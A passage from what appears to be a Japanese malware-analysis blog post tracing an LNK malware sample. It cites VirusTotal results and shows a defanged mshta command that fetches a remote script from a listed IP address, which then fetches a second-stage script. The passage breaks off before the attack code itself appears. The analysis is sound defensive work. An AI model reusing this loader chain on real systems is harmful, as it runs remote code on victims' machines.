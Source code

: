 https://www.virustotal.com/gui/file/bffacbb0b54a3b1dd6f25686d2486d0a064f5e8eedefb4e572740f7b63ba4fa4

![検知状況](https://raw.githubusercontent.com/proshiba/analysis/main/lnkmalware//virustotal01.png)

Behaviorを見ていきますと、以下へのアクセスが存在し、これはmshtaを利用してアクセスしているようです。  
`hxxp://82.221.129[.]104/k0201[.]txt`

![mshtaの動作](https://raw.githubusercontent.com/proshiba/analysis/main/lnkmalware//virustotal02.png)

検知回避のトリックは使われてますが、以下のようなコードが実行されてます。  

`mshta hxxp://82.221.129[.]104/k0201[.]txt`

次はこのURLの内容ですね。phishcheckを使って実際にアクセスしてみると以下のようになってます。  

https://phishcheck.me/179126/details

![アクセス結果](https://raw.githubusercontent.com/proshiba/analysis/main/lnkmalware//mshta01.png)

つまり、今度は以下URLのスクリプトを取得しているわけです。  
`hxxp://82.221.129[.]104/k0201jo[.]txt`

なるほど。そうなると今度はこのURLを見てみます。そうすると今度はおそらく攻撃コードの実体がありました。  
以下はとりあえずインデントだけやった状態です。  
